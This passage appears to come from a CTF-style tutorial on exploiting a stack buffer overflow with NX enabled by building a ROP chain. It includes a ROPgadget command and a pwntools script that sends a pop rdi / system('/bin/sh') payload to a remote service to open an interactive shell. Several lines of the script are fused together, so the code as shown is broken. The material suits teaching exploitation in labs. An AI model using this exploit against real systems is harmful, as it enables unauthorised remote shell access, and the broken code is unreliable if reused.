 ```
script.py ip:port
```

#### Exploiting BOF | NX Enabled | Using Gadgets and ROP Chains

The same drill as always. We hit the binary with segmentation fault and find the offset.

Gadgets are sets of instructions that end in `ret`. Every gadget has an address which we can add on the stack so that when a gadget is executed it returns to the stack and executes the next gadget if exists which eventually forms the `ROP Chain`

To exploit BOF using this method we have to create a ROP chain that consists mainly of the below

```
1- padding: the offset we found earlier
2- Gadget Address: pop rdi, ret;
The gadget will pop the stack content inside rdi
3- Storing "/bin/sh\x00" in a memory address that we can control
4- Making a system call to execute system("/bin/sh");
```

Regarding step 2 `Gadget Address` can be found using a tool named [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

```
ROPgadget --binary bof
```

and then find the address where it corresponds to `pop rdi, ret` thus you have the gadget address.

Below is an example python exploitation script for this scenarios

```python
#!/bin/python3

from pwn import *

HOST = <ip_address>  
PORT = <port>

#Connect to the remote server  
r = remote(HOST, PORT)

#Define the address of the gadget  
pop_rdi = gadget-address # change this

#Write "/bin/sh\x00" inside the .bss 

r.recvuntil('>> ')  
r.sendline('hof')

payload  = b'/bin/sh'.ljust(16, b'\x00')

r.recvuntil('Enter your name: ')  
r.sendline(payload)

#Exploit the buffer overflow  
r.recvuntil('>> ')  
r.sendline('flag')payload  = b'\x90'*24  
payload += p64(pop_rdi)  
payload += p64(0x004040b0)  
payload += p64(0x00401381)r.recvuntil('Enter flag: ')  
r.sendline(payload)r.interactive()
```
